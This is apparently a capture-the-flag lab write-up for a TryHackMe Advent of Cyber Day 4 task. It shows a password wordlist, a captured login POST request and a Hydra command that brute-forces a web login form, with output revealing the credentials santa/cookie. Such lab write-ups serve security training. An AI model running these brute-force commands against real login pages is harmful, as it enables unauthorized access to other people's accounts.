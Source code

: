 ## We are downloading the Wordlist to our machine
```$cat /advent3/day4/wordlist ```

![cat](/Advent%20of%20Cyber%203/Screenshots/Task4/Wordlist.PNG)
```
christmas
elves!
santa
festive
joy123
myrrh!
yuletide
presents
candy
tidings
cookie
cookies
biscuits!
snowball
snowball123
```
Now we need the post request, how does it look! for that purpose we use burpsuite!
- Here's our response!

![burp](/Advent%20of%20Cyber%203/Screenshots/Task4/burp.PNG)
```
POST / HTTP/1.1
Host: 10.10.88.145
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: http://10.10.88.145
Connection: close
Referer: http://10.10.88.145/
Cookie: PHPSESSID=rr0akvdk9fpk555t5f8fdl8s75
Upgrade-Insecure-Requests: 1

username=username&password=password&submit=Login
```

Now we know how our request looks like! let try to grab that form post and pass it to Hydra (Hydra is a pre-installed tool in Kali Linux used to brute-force username and password to different services)

```
hydra -l santa -P wordlist 10.10.88.145 http-form-post "/index.php:username=^USER^&password=^PASS^&submit=Login:F=Invalid username and password" -I
```
You might be wondering why adding a lot of those options, right?
- ```-l``` for the username!
- ```-P wordlist``` for the password wordlist that we've downloaded before!
- ```10.10.88.145``` our target!
- ```http-form-post``` We're bruteforcing a post module!
- ```^USER^``` & ```^PASS^``` are two parameters indicate what we're bruteforcing!
- ```F=Invalid username and password``` Whenever Hydra see this line when bruteforcing, it knows that the attempt failed therfore wrong credentials.
- ```-I``` Used to stop any previous hydra sessions and focus on the current one


## We get a response like this~

```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-05 01:17:01
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:1/p:16), ~1 try per task
[DATA] attacking http-post-form://10.10.88.145:80/index.php:username=^USER^&password=^PASS^&submit=Login:F=Invalid username and password
```
```http
[80][http-post-form] host: 10.10.88.145   login: santa   password: cookie
```
```
1 of 1 target successfully completed, 1 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-05 01:17:02
```

## Right! We've got the password! Which is cookie!, Now let try to attempt to login

![login](/Advent%20of%20Cyber%203/Screenshots/Task4/login.PNG)
![done](/Advent%20of%20Cyber%203/Screenshots/Task4/flag.PNG)


## We've done it! Well done guys!